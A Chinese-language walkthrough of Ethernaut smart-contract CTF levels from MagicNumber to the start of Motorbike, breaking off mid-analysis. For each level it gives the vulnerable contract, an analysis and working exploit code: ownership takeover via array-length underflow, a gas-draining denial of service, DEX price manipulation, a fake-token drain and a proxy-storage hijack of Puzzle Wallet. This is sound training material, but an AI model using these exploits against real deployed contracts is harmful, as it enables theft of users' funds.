没咋清楚，因为看代码完全不需要写一个Slover合约，直接写个calldata调用` setSolver `就行了，而且这个` whatIsTheMeaningOfLife() `也不知道是干啥的；

反编译合约也没什么线索：

```solidity
// Decompiled by library.dedaub.com
// 2025.02.04 10:35 UTC
// Compiled using the solidity compiler version 0.8.12


// Data structures and variables inferred from the use of storage instructions
address _solver; // STORAGE[0x0] bytes 0 to 19

function fallback() public payable { 
    revert();
}

function setSolver(address newSolver_) public payable { 
    require(msg.data.length - 4 >= 32);
    _solver = newSolver_;
}

function solver() public payable { 
    return _solver;
}

// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function __function_selector__( function_selector) public payable { 
    MEM[64] = 128;
    require(!msg.value);
    if (msg.data.length >= 4) {
        if (0x1f879433 == function_selector >> 224) {
            setSolver(address);
        } else if (0x49a7a26d == function_selector >> 224) {
            solver();
        }
    }
    fallback();
}
```

继续查查部署该合约时的代码，地址0x2132C7bc11De7A90B87375f282d36100a29f97a9，注意到这个函数：

```solidity
function 0xd38def5b(address varg0, address varg1) public nonPayable { 
    require(msg.data.length - 4 >= 64);
    v0, v1 = varg0.solver().gas(msg.gas);
    require(bool(v0), 0, RETURNDATASIZE()); // checks call status, propagates error data on error
    require(MEM[64] + RETURNDATASIZE() - MEM[64] >= 32);
    require(v1 == address(v1));
    v2, v3 = address(v1).staticcall(uint32(0x650500c1)).gas(msg.gas);
    require(bool(v2), 0, RETURNDATASIZE()); // checks call status, propagates error data on error
    require(MEM[64] + RETURNDATASIZE() - MEM[64] >= 32);
    if (v3 == 42) {
        if (v1.code.size <= 10) {
            v4 = v5 = 1;
        } else {
            v4 = v6 = 0;
        }
    } else {
        v4 = v7 = 0;
    }
    return bool(v4);
}
```

其中` v2, v3 = address(v1).staticcall(uint32(0x650500c1)).gas(msg.gas); `调用一个方法获得的值存在v3；

然而` Keccak256("whatIsTheMeaningOfLife()") >> 224 `的值就为` 650500c1 `；

` if (v3 == 42) { `所以数字就为42；

` if (v1.code.size <= 10) { `这边是在检查合约代码长度；

捋一下逻辑，就是这个` solver `是我们部署的合约地址，其中有` whatIsTheMeaningOfLife() `这个函数，然后调用题目合约调用` setSolver `即可；

所以现在我们只需写一个小于10字节且包含指定函数的合约，如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    function whatIsTheMeaningOfLife() public returns (uint256) {
        return 42;
    }
}
```

#### 运行时字节码

先写运行时的字节码，只要这部分不超过10字节即可；

返回一个值会用到` RETURN `，但它需要两个参数：

> 1. `offset`: byte offset in the [memory](https://www.evm.codes/about) in bytes, to copy what will be the [return data](https://www.evm.codes/about) of this [context](https://www.evm.codes/about).
> 2. `size`: byte size to copy (size of the [return data](https://www.evm.codes/about)).

所以我们得先将` 42 `存到内存中，这就需要用到` MSTORE `，它也需要两个参数：

> 1. `offset`: offset in the [memory](https://www.evm.codes/about) in bytes.
> 2. `value`: 32-byte value to write in the [memory](https://www.evm.codes/about).

所以，可以这么写：

```solidity
// 由于是栈结构，所以参数从右往左push
// 存储0x2a到内存中
PUSH 0x2a // value
PUSH 0x80 // offset,这边的位置可以随便选，选0x80是因为Solidity Memory中0x80才是真正的开始
MSTORE
// 返回值
PUSH 0x20 // size
PUSH 0x80 // offset
RETURN
```

` 602a60805260206080f3 `正好10字节；

#### 部署代码

部署代码需要将运行时代码返回给EVM；

可以用` CODECOPY `，它有三个参数：

> 1. `destOffset`: byte offset in the [memory](https://www.evm.codes/about) where the result will be copied.
> 2. `offset`: byte offset in the [code](https://www.evm.codes/about) to copy.
> 3. `size`: byte size to copy.

所以可以这么写：

```solidity
PUSH 0xa // size
PUSH 0xc // offset，此处需要计算运行时代码的开头在整个字节码的哪
PUSH 0x00// desOffset，查看其他合约部署的代码基本在0x00位置
CODECOPY
PUSH 0xa // size
PUSH 0x00// offset
RETURN
```

所以整个字节码就是` 600a600c600039600a6000f3602a60805260206080f3 `；

这边可以不用搞函数选择器，直接进来就是运行返回值；


### 攻击


## Level_19.Alien Codex

要求：

> 获得合约的所有权；

合约：

```solidity
/**
 * @dev Contract module which provides a basic access control mechanism, where
 * there is an account (an owner) that can be granted exclusive access to
 * specific functions.
 *
 * This module is used through inheritance. It will make available the modifier
 * `onlyOwner`, which can be applied to your functions to restrict their use to
 * the owner.
 */
contract Ownable {
    address private _owner;

    event OwnershipTransferred(address indexed previousOwner, address indexed newOwner);

    /**
     * @dev Initializes the contract setting the deployer as the initial owner.
     */
    constructor() internal {
        _owner = msg.sender;
    }

    /**
     * @dev Returns the address of the current owner.
     */
    function owner() public view returns (address) {
        return _owner;
    }

    /**
     * @dev Throws if called by any account other than the owner.
     */
    modifier onlyOwner() {
        require(isOwner(), "Ownable: caller is not the owner");
        _;
    }

    /**
     * @dev Returns true if the caller is the current owner.
     */
    function isOwner() public view returns (bool) {
        return msg.sender == _owner;
    }

    /**
     * @dev Leaves the contract without owner. It will not be possible to call
     * `onlyOwner` functions anymore. Can only be called by the current owner.
     *
     * > Note: Renouncing ownership will leave the contract without an owner,
     * thereby removing any functionality that is only available to the owner.
     */
    function renounceOwnership() public onlyOwner {
        emit OwnershipTransferred(_owner, address(0));
        _owner = address(0);
    }

    /**
     * @dev Transfers ownership of the contract to a new account (`newOwner`).
     * Can only be called by the current owner.
     */
    function transferOwnership(address newOwner) public onlyOwner {
        _transferOwnership(newOwner);
    }

    /**
     * @dev Transfers ownership of the contract to a new account (`newOwner`).
     */
    function _transferOwnership(address newOwner) internal {
        require(newOwner != address(0), "Ownable: new owner is the zero address");
        emit OwnershipTransferred(_owner, newOwner);
        _owner = newOwner;
    }
}

// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

### 分析

题目提示需要了解[动态数组在Storage中的存储](https://www.cnblogs.com/WZM1230/p/18684806#12-dynamic-arrays--mapping)，并且该合约继承了一个` Owner `合约，` Owner `合约有个私有状态变量存储` owner `；

写一个简单的demo就可以发现该题目的Storage布局如下：

|        Slot序号        |             内容             |
| :--------------------: | :--------------------------: |
|         Slot0          | bool(contact),address(Owner) |
|         Slot1          |    bytes32[] codex的长度     |
|          ...           |             ...              |
|   Slot(Keccak256(1))   |           codex[0]           |
| Slot(Keccak256(1)) + 1 |           codex[1]           |
|          ...           |             ...              |
|     Slot(0xFF..FF)     |             ...              |

而且注意到编译版本是` 0.5 `，那时候动态数组的长度还不是只读的，可以修改；

所以我们只需先` makeContact() `一下，然后直接调用` retract() `使数组长度` 0 - 1 `变成` 0xFF..FF `，最后计算得到` Owner `的位置，调用` revise() `修改即可；

> 比如Data[]有4个Data，D0，D1，D2，D3；
>
> 起始是在D2，则D0是第3个，即Data[2]；
>
> 计算：` 4(总元素) - 2(起始元素下标) = 2(需要元素下标) `；
>
> 所以，Slot0的下标就为：` 0x100..00(64个0) - keccak256(abi.encodePacked(uint256(1)) `；
>
> 计算出来为0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a；


### 攻击


看看上面计算的地址是不是存放` Owner `的位置：



修改为自己的地址：` 0x000000000000000000000001 + 7148C25A8C78b841f771b2b2eeaD6A6220718390 `，前半是contact，后半是自己地址；


## Level_20.Denial

要求：

> 在合约中有钱的情况下，使owner不能取款；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### 分析

重点就在` withdraw() `这个函数，无论` partner.call{value: amountToSend}(""); `这句是否执行成功，` payable(owner).transfer(amountToSend); `都会执行，除非gas费用耗尽；

所以我们只需实现一个合约，将其设置为partner，其中` receive() `中实现一个无限循环；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    receive() external payable { 
        while(true){}
    }
}
```

将其部署，并设置成partner即可；


## Level_21.Shop

要求：

> 以很低的价格购买到商品；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

### 分析

和之前的一关一样，利用` isSold `来控制` price `的返回值，注意这边` price() `是` view `的，所以只能通过控制流来实现；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Buyer{
    Shop shop;
    constructor(address addr){
        shop = Shop(addr);
    }
    function price() external view override returns (uint256){
        if (shop.isSold() == false){
            return 100;
        } else {
            return 0;
        }
    }
    function Attack() public {
        shop.buy();
    }
}
```


## Level_22.Dex

要求：

> 操纵价格获得所有的Token1或Token2；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### 分析

我们各有10个Token1和Token2，需要获得DEX中所有的Token1和Token2；

其余函数都挺正常，只有从` getSwapPrice() `下手；

计算交换价格的方式可以理解为：` 数额 * 交易所当前另一个币的数量 / 交易所当前该币数量 `；

>  就比如，当前交易所有10个` A `和10个` B `，我手中有5个` A `，我想换成` B `，交换价格为` 5 * 10 / 10 = 5 `，则交易所只需给我5个` B `即可；
>
> 但当我又想换手中的` B `为` A `时，此时的交换价格为` 5 * 15 / 5 = 15 `，即我从交易所那获得了15个` A `；
>
> 这样一交换，我赚了10个` A `；

通过上面这个例子，我们就可以以相同的手法来置换出交易所中的所有币；

|        当前操作        | 用户Token1数量 | 用户Token2数量 | 交易所Token1数量 | 交易所Token2数量 |      置换数量       |
| :--------------------: | :------------: | :------------: | :--------------: | :--------------: | :-----------------: |
|                        |       10       |       10       |       100        |       100        |                     |
|    swap(t1, t2, 10)    |  10 - 10 = 0   |  10 + 10 = 20  |  100 + 10 = 110  |  100 - 10 = 90   | 10 * 100 / 100 = 10 |
|    swap(t2, t1, 20)    |  0 + 24 = 24   |  20 - 20 = 0   |  110 - 24 = 86   |  90 + 20 = 110   | 20 * 110 / 90 = 24  |
|    swap(t1, t2, 24)    |  24 - 24 = 0   |  0 + 30 = 30   |  86 + 24 = 110   |  110 - 30 = 80   | 24 * 110 / 86 = 30  |
|    swap(t2, t1, 30)    |  0 + 41 = 41   |  30 - 30 = 0   |  110 - 41 = 69   |  80 + 30 = 110   | 30 * 110 / 80 = 41  |
|    swap(t1, t2, 41)    |  41 - 41 = 0   |  0 + 65 = 65   |  69 + 41 = 110   |  110 - 65 = 45   | 41 * 110 / 69 = 65  |
| swap(t2, t1, 65)(舍弃) | 0 + 158(上溢)  |  65 - 65 = 0   | 110 - 158(下溢)  |  45 + 65 = 110   | 65 * 110 / 45 = 158 |
|    swap(t2, t1, 45)    | 0 + 110 = 110  |  65 - 45 = 20  |  110 - 110 = 0   |   45 + 45 = 90   | 45 * 110 / 45 = 110 |

可以看出，通过上面6步，可以仅通过45个Token2置换出所有Token1；


### 攻击

由于我们是通过题目合约进行操作，所以我们得先approve合约足够的allowance：


之后按照上面一点一点置换，最后查询余额：


## Level_23.Dex Two

要求：

> 获得所有的Token1和Token2；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### 分析

该合约与` Dex `不同之处：

```solidity
// Dex
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

// Dex Two
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

` Dex Two `没有检测Token的地址，那就很简单了，我们只需自己搞一个Token，给交易所1个，我们自己3个即可；

|     当前操作     | Dex的Token1 | Dex的Token2 | Dex的EXP | 用户的Token1 | 用户的Token2 | 用户的EXP |
| :--------------: | :---------: | :---------: | :------: | :----------: | :----------: | :-------: |
|                  |     100     |     100     |    1     |      10      |      10      |     3     |
| swap(EXP, T1, 1) |      0      |     100     |    2     |     110      |      10      |     2     |
| swap(EXP, T2, 2) |      0      |      0      |    4     |     110      |     110      |     0     |


### 攻击

自己实现一个ERC20Token：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Exp is ERC20{
    constructor(address addr) ERC20("ExpToken", "EXP"){
        _mint(msg.sender, 3);
        _mint(addr, 1);
    }
}
```

部署完成同样先给交易所approve：


给交易所approve我们自己的Token：


置换Token1:


置换Token2:


## Level_24.Puzzle Wallet

要求：

> 劫持代理合约，获得代理合约的控制权；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

### 分析

该题目使用了代理模式，首先得搞清楚给的地址是` proxy contract `还是` logic contract `，正常应该是给` proxy `的，因为是` proxy `通过` delegatecall `来调用` logic contract `中实现的函数；

但在控制台中只看到了` logic contract `中的函数：


但仔细一想，逻辑根本不通（哪有逻辑合约调用代理合约的，而且根本没有接口），所以查看了一下创建实例的合约：

```solidity
function createInstance(address _player ) public payable override returns (address) {
    require(msg.value == 0.001 ether, "Must send 0.001 ETH to create instance");

    // deploy the PuzzleWallet logic
    PuzzleWallet walletLogic = new PuzzleWallet();

    // deploy proxy and initialize implementation contract
    bytes memory data = abi.encodeWithSelector(PuzzleWallet.init.selector, 100 ether);
    PuzzleProxy proxy = new PuzzleProxy(address(this), address(walletLogic), data);
    PuzzleWallet instance = PuzzleWallet(address(proxy));

    // whitelist this contract to allow it to deposit ETH
    instance.addToWhitelist(address(this));
    instance.deposit{value: msg.value}();

    return address(proxy);
}
```

果然返回的是代理合约地址；

由于代理模式使用的是` delegatecall `，所以来回顾一下：

```solidity
// delegatecall
我 ----------call----------> proxy ----------delegatecall----------> logic
                     msg.sender = 我                  ****msg.sender = 我****
                     msg.data = 我给的                     msg.data = 我给的
                                                      变量的变化 = 仅proxy中的变量变化
若logic合约和proxy合约的状态变量不一致，最终修改的是proxy合约中的slot
```

该题的最终目的是将` proxy `中的状态变量` admin `变成我们的地址，即调用` setMaxBalance() `修改` maxBalance `；

1. 首先先将自己加入白名单，不然函数都调用不了；

需要将` wallet `中的` owner `变成自己的地址，但` wallet `中没可用的函数，但是可以调用` proxy `中的` processNewAdmin() `修改` pendingAdmin `，相当于修改` owner `；

最后调用` addToWhitelist() `将自己加入白名单；

2. 调用` setMaxBalance() `前调用前需要将余额清零；

合约上有` 0.001ETH `，需要调用` execute() `来扣款，但是映射` balances `中我们地址的记录为0，所以需要调用` deposit() `来增加映射中的值，但这样合约的余额就会增加，明显是不行的；

但是我们可以调用` multicall() `，构造一个calldata，先使用` deposit() `传入` 0.002ETH `，但只携带` 0.001ETH `，这样映射balance和余额就全为` 0.002ETH `了，之后再调用` execute() `来扣款；

测试例子：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Test {
    mapping(address => uint256) public balances;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function multicall() external payable returns (bool) {
        (bool success_1, ) = address(this).delegatecall(abi.encodeWithSignature("deposit()"));
        (bool success_2, ) = address(this).delegatecall(abi.encodeWithSignature("deposit()"));
        if(success_1 && success_2){
            return true;
        } else {
            return false;
        }
    }
}
```

一开始余额为0:


携带1ETH并调用` multicall() `，合约余额变为1ETH，账户balance变为2ETH：


但真正的` multicall() `中有个` depositCalled `来控制每次只能执行一次` deposit() `；我们可以在一个` multicall() `中分别调用两次` multicall(deposit()) `：

```solidity
multicall([multicall(deposit()), multicall(deposit())]);
```

3. 构造calldata

```solidity
// deposit的calldata
bytes[] memory deposit_data = new bytes[](1);
deposit_data[0] = abi.encodeWithSignature("deposit()");

// multicall的calldata
bytes[] memory multicall_data = new bytes[](2);
multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);
```

4. 取款，并设置admin

最后就是设置` maxBalance `为我们的地址，即admin；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

contract PuzzleProxy {
    // owner
    address public pendingAdmin;
    // maxBalance
    address public admin;

    function proposeNewAdmin(address _newAdmin) external {}

    function approveNewAdmin(address _expectedAdmin) external {}

    function upgradeTo(address _newImplementation) external {}

    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function setMaxBalance(uint256 _maxBalance) external {}

    function addToWhitelist(address addr) external {}

    function deposit() external payable {}

    function execute(address to, uint256 value, bytes calldata data) external payable {}

    function multicall(bytes[] calldata data) external payable {}
}
```

搞一个简化版合约在Remix使用` At Address `来快速调用函数；

为了方便，直接使用Remix手动调用函数，就不必部署一个攻击合约了(写在最后，可供参考)；

加白名单：


传入参数调用` multicall `：

``` solidity
["0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000",
"0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000"]
```

在Remix中，bytes传参必须得在数据前加` " `，不然会失败；


取款：


设置admin：


自动化脚本：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr) public payable {
        PuzzleProxy pp = PuzzleProxy(addr);

        pp.proposeNewAdmin(address(this));
        pp.addToWhitelist(address(this));

        // deposit的calldata
        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSignature("deposit()");

        // multicall的calldata
        bytes[] memory multicall_data = new bytes[](2);
        multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);

        // 调用multicall
        pp.multicall{value: 0.001 ether}(multicall_data);

        // 取款
        pp.execute(msg.sender, 0.002 ether, "");

        require(address(pp).balance==0, "balance not 0");

        // 设置admin
        pp.setMaxBalance(uint256(uint160(msg.sender)));

        require(pp.admin() == msg.sender, "set error");

        selfdestruct(payable(msg.sender));
    }
}
```


## Level_25.Motorbike

要求：

> 销毁引擎；

合约：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

### 分析

该题目使用了代理模式的EIP-1967，在代理合约的指定slot存放逻辑合约、Beacon合约等，导致了slot的碰撞几乎不可能；



所以` Motorbike `合约很难下手（没啥方法来改动` _IMPLEMENTATION_SLOT `）；

接下来看看` Engine `合约，其继承了` Initializable `，大概意思就是有两个bool类型的状态变量确保` initialize()-设置马力和升级者 `只能执行一次；

但是这边有slot碰撞：

